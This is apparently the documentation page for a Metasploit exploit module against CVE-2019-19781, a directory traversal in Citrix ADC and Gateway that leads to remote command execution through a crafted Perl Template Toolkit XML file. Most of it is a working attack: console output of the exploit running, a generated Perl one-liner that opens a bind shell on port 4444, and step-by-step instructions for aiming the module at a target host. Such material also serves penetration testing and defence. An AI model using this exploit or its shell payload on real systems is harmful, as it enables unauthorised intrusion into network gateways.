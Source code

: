 ## Introduction

A directory traversal was discovered in Citrix Application Delivery Controller (ADC), aka NetScaler, and Gateway 10.5, 11.1, 12.0, 12.1, and 13.0.

When the NSPPE receives a request for `GET /vpn/index.html`, it is supposed to send this request to Apache, which processes it. However, by making the request `GET /vpn/../vpns/` (which is not sanitized), Apache transforms the route into `GET /vpns/` and processes this last request normally.

This `/vpns/` directory is interesting because it contains Perl code. The script `newbm.pl` creates an array containing information from several parameters, then calls the `filewrite` function, which writes the content to an XML file on disk.

A malicious attacker can execute arbitrary commands remotely by creating a corrupted XML file that uses the Perl Template Toolkit in part of payload.

```
msf5 exploit(freebsd/http/citrix_dir_traversal_rce) > run

[*] Using auxiliary/scanner/http/citrix_dir_traversal as check
[+] http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf - The target is vulnerable to CVE-2019-19781.
[+] Obtained HTTP response code 200 for http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf. This means that access to /vpn/../vpns/cfg/smb.conf was obtained via directory traversal.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable
[*] Yeeting cmd/unix/generic payload at 127.0.0.1:8080
[*] Generated payload: id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

[!] This exploit may require manual cleanup of '/netscaler/portal/templates/mdjLHiHtIYmh.xml' on the target
[!] This exploit may require manual cleanup of '/var/tmp/netscaler/portal/templates/mdjLHiHtIYmh.xml.ttc2' on the target
[*] Exploit completed, but no session was created.
msf5 exploit(freebsd/http/citrix_dir_traversal_rce) > set payload cmd/unix/bind_perl
payload => cmd/unix/bind_perl
msf5 exploit(freebsd/http/citrix_dir_traversal_rce) > run

[*] Using auxiliary/scanner/http/citrix_dir_traversal as check
[+] http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf - The target is vulnerable to CVE-2019-19781.
[+] Obtained HTTP response code 200 for http://127.0.0.1:8080/vpn/../vpns/cfg/smb.conf. This means that access to /vpn/../vpns/cfg/smb.conf was obtained via directory traversal.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable
[*] Yeeting cmd/unix/bind_perl payload at 127.0.0.1:8080
[*] Generated payload: perl -MIO -e '$p=fork();exit,if$p;foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(LocalPort,4444,Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);while(<>){if($_=~ /(.*)/){system $1;}};'
[!] No response to GET KdlZHSNjZQzdSCKAusgAnnbPvTMLhXRxiEydEotJP.xml request
[*] Started bind TCP handler against 127.0.0.1:4444
[*] Command shell session 1 opened (127.0.0.1:51106 -> 127.0.0.1:4444) at 2020-01-13 20:50:45 -0600
[+] Deleted /netscaler/portal/templates/KdlZHSNjZQzdSCKAusgAnnbPvTMLhXRxiEydEotJP.xml
[+] Deleted /var/tmp/netscaler/portal/templates/KdlZHSNjZQzdSCKAusgAnnbPvTMLhXRxiEydEotJP.xml.ttc2

id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/freebsd/http/citrix_dir_traversal_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `set VERBOSE true`
7. Do: `run`

## Targets

```
Id  Name
--  ----
0   Python
1   Unix Command
```

## Advanced options

**ForceExploit**

Override check result.

## References

1. <https://www.mdsec.co.uk/2020/01/deep-dive-to-citrix-adc-remote-code-execution-cve-2019-19781/>
2. <https://www.exploit-db.com/exploits/47901>
3. <https://www.exploit-db.com/exploits/47902>

